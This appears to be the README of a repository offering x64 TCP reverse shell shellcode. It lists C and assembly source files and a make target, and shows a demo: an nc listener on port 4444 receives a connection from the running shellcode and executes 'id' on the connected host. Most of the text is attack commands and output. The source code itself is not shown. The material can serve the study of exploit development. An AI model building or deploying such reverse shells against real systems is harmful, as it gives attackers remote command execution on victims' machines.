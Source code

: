 # TCP reverse shell x64 shellcode

Listing:
- `reverse.c` - TCP reverse shell C code
- `reverse.s` - asm rewrite of C code
- `reverse_sh.s` - adapted asm for shellcode

## Compiling

Use `make (target) PROJECT=reverse`.

## Running

First terminal:
```
$ nc -nlvp 4444
Listening on [0.0.0.0] (family 2, port 4444)
Listening on 0.0.0.0 4444

```

Second terminal:
```
$ make skeleton PROJECT=reverse
...
$ out/skeleton 
Shellcode Length:  104

```

Again in the first terminal:
```
...
Connection received on 127.0.0.1 37992
id
uid=999(ubuntu) gid=999(ubuntu) groups=999(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),119(lpadmin),130(lxd),131(sambashare)

```
